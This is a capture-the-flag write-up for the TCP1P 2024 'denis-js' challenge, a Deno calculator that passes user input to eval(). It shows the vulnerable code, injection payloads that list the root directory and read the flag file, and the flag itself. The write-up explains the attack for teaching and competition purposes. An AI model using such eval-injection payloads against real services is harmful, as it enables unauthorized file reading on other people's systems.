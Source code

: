 ```yaml
---
title: "denis-js Writeup"
date: 2024-10-17 22:00
categories: [TCP1P CTF 2024, Misc]
tags: [tcp1p, misc, javascript, deno]
authors: stefan
description: A Simple JavaScript challenge that uses Deno and evals user input. Read current directory and then the flag which was generated with random characters.
image:
    path: /assets/img/writeups/tcp1p.png
---
```


## Challenge Description

Hello guys, Denis just make a simple calculator in js, can you try it?

## Solution

### Step 1: Analyze the Given Script

We are provided with the following TypeScript code:

```ts
const { stdout, stdin } = Deno;

async function promptUserInput(message: string): Promise<string> {
    stdout.write(new TextEncoder().encode(message));
    const buffer = new Uint8Array(300);
    const bytesRead = await stdin.read(buffer);
    const userInput = new TextDecoder().decode(buffer.subarray(0, bytesRead));
    return userInput.trim();
}

promptUserInput("Enter your name: ").then(name=>{
    if (/^[a-zA-Z]{1,}$/g.test(name)) {
        stdout.write(new TextEncoder().encode("\\(OwO)/"));
        return
    }
    stdout.write(new TextEncoder().encode(eval(name)))
});
```

We can see that the script reads user input and evaluates it using `eval()`. If the input is a valid name, it prints `\(OwO)/`. Otherwise, it evaluates the input using `eval()` and prints the result.

### Step 2: Listing current directory

To read the contents of the current directory, we can use the `Deno.readDirSync()` function. This function returns an iterator of directory entries. We can then map these entries to their names and print them.

```js
console.log(Array.from(Deno.readDirSync('/')).map(entry => entry.name).join('\n'));
```

### Step 3: Reading the Flag

The flag is stored in a file named `/flag-e2fd2c5183e5da1e454fbe0f24dd4889`, discovered on the previous step. We can read this file using `Deno.readFileSync()`.

```js
try {
Deno.readFileSync("/flag-e2fd2c5183e5da1e454fbe0f24dd4889")
}catch(err) {console.log(err)}
```

This script successfully read the flag file and printed its contents.

## Conclusion

To summarize the steps we took:

1. We analyzed the given script and identified that it reads user input and evaluates it using `eval()`.
2. We used `Deno.readDirSync()` to list the contents of the current directory.
3. We read the flag file using `Deno.readFileSync()`.

## Flag
`TCP1P{h0PE_nAgi_dIdNT_SE3_I_U53_h1S_PAY1Oad_t0_5OLVe_tHI5_cH4LIEn9E}`
